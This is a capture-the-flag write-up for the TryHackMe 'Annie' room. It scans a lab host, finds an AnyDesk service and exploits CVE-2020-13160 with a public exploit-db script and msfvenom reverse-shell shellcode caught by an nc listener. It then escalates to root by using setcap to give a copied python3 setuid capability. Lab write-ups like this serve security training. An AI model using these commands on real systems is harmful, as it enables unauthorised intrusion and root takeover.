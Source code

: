 ## Annie CTF - [room](https://tryhackme.com/room/annie)

First we will start the machine, and grab the ip:
  - 10.10.76.15

`sudo nmap -v -sV -sC -oN nmap.log 10.10.76.15 -p- | grep open `

**Output**:
```shell
Discovered open port 22/tcp on 10.10.76.15
Discovered open port 33797/tcp on 10.10.76.15
Discovered open port 7070/tcp on 10.10.76.15
22/tcp    open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp  open  realserver?
33797/tcp open  unknown
```
`sudo nmap -v -sV -sC -oN nmap.txt 10.10.76.15 -p 22,7070`

**Output**:
```
PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
```

Making some research about anydesk client we know that anydesk use port range 50001-50003
so scanning that ports we know that port 50001 is open, and searching for anydesk CVE/Vulns we found

### CVE-2020-13160 - [Link](https://www.exploit-db.com/exploits/49613)

Now changing the ip in `ip = $ip`

![screenshot](https://github.com/SnowyYT07/TryhackmeCTFs/Annie/img/screenshot.png)

and changing that shellcode with
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=*thm ip* LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode`

we just need to set our listener and run the py script
`nc -lvnp 4444`

IN ANOTHER SHELL:

`python2 49613.py`


### RCE TIME

Now we have a user perm shell doing
cat user.txt we get

THM{[REDECTED]}

now u have to explore for privesc
with
`find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`

we can find binary with SUID perm
lets use the /sbin/setcap so..

`cp /usr/bin/python3 /home/annie/python3`

`setcap cap_setuid+ep /home/annie/python3`

`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

now we got root and:

`cat /root/root.txt`
and we get 
`THM{[REDECTED]}`
